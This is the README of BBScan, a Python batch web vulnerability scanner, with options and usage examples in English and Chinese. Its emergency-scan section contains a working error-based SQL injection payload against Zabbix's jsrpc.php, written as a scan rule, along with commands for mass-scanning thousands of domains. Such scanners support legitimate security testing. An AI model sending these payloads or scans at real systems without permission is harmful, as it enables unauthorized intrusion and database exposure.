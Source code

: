 # BBScan 1.3 #

**BBScan** is a tiny **B**atch we**B**+ vulnerability **Scan**ner.

## Requirements ##
* BeautifulSoup4>=4.3.2
* py2-ipaddress>=3.4.1
* dnspython>=1.15.0
* gevent>=1.2.1

You can install required packages with pip

	pip install -r requirements.txt

## Usage ##

	usage: BBScan.py [options]
	
	* A tiny Batch weB+ vulnerability Scanner. *
	By LiJieJie (http://www.lijiejie.com)
	
	optional arguments:
	  -h, --help            show this help message and exit
	  --host [HOST [HOST2 HOST3 ...] [HOST [HOST2 HOST3 ...] ...]]
	                        Scan several hosts from command line
	  -f TargetFile         Load new line delimited targets from TargetFile
	  -d TargetDirectory    Load all *.txt files from TargetDirectory
	  --crawler TargetDirectory
	                        Load all *.log crawler files from TargetDirectory
	  --full                Process all sub directories.
	  -n, --no-crawl        No crawling, sub folders will not be processed.
	  -nn, --no-check404    No HTTP 404 existence check
	  --scripts-only        Scan with user scripts only
	  --no-scripts          Disable user scripts scan
	  -p PROCESS            Num of processes running concurrently, 30 by default
	  -t THREADS            Num of scan threads for each scan process, 3 by default
	  --network MASK        Scan all Target/MASK hosts,
	                        should be an int between 24 and 31
	  --timeout Timeout     Max scan minutes for each website, 20 by default
	  -nnn, --no-browser    Do not view report with browser after scan finished
	  -md                   Save scan report as markdown format
	  -v                    show program's version number and exit


**1. Scan several hosts from command line** 

	python BBScan.py  --host www.a.com www.b.com --browser

**2. Scan www.target.com and all the other IPs under www.target.com/28**

	python BBScan.py  --host www.target.com --network 28 --browser
	
**3. Load newline delimited targets from file and scan**
	
	python BBScan.py -f wandoujia.com.txt

**4. Load all targets from Directory(\*.txt file only) and scan**

	python BBScan.py -d targets/

**5. Load crawler logs from Directory(\*.log file only) and scan**

	python BBScan.py --crawler crawler_logs/

crawler log files should be formarted first:

			. GET http://www.iqiyi.com/ HTTP/1.1^^^200
			. POST http://www.pps.tv/login.php HTTP/1.1^^^user=admin&passwd=admin^^^200


## 使用说明 ##

BBScan是一个迷你的信息泄漏批量扫描脚本。 可以通过文本批量导入主机或URL，以换行符分割。
	
`--crawler` 参数是`v1.1`新增的，可以导入爬虫日志发起扫描。 日志的格式，我们约定如下：

			Request Line + 三个尖括号 + [POST请求body] + 三个尖括号 + HTTP状态码
示例如下：

			. GET http://www.iqiyi.com/ HTTP/1.1^^^200
			. POST http://www.pps.tv/login.php HTTP/1.1^^^user=admin&passwd=admin^^^200

`--full`  处理所有的子文件夹，比如 `http://www.target.com/aa/bb/cc/`, `/aa/bb/cc/` `/aa/bb/` `/aa/` 三个path都将被扫描

`-n, --no-crawl`  不从首页抓取新的URL

`-nn, --no-check404` 不检查状态码404是否存在，不保存404页面的大小进行后续比对



## web漏洞应急扫描 ##

以批量扫描 Zabbix SQL注入为例，在一个txt文件中写入规则：

	/zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=1zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim%20estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi%20story.php&profileIdx=web.item.graph&profileIdx2=(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),%20user())x%20from%20information_schema.character_sets%20group%20by%20x)y)&updateProfil%20e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=%2017&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&%20mark_color=1    {tag="Duplicate entry"}  {status=200}  {type="text/plain"}
	
	/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&stamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=1zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim%20estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi%20story.php&profileIdx=web.item.graph&profileIdx2=(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),%20user())x%20from%20information_schema.character_sets%20group%20by%20x)y)&updateProfil%20e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=%2017&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&%20mark_color=1          {tag="Duplicate entry"}  {status=200}  {type="text/plain"}

把所有HTTP like的服务写入 iqiyi.http.txt：

	不要抓首页
	不要检测404
	并发2个线程、 50个进程

可以比较迅速地扫完几万个域名和IP地址：

	BBScan.py --no-crawl --no-check404 -t2 -p50 -f iqiyi.http.txt


该插件是从内部扫描器中抽离出来的，感谢 `Jekkay Hu<34538980[at]qq.com>` ，欢迎提交有用的新规则	
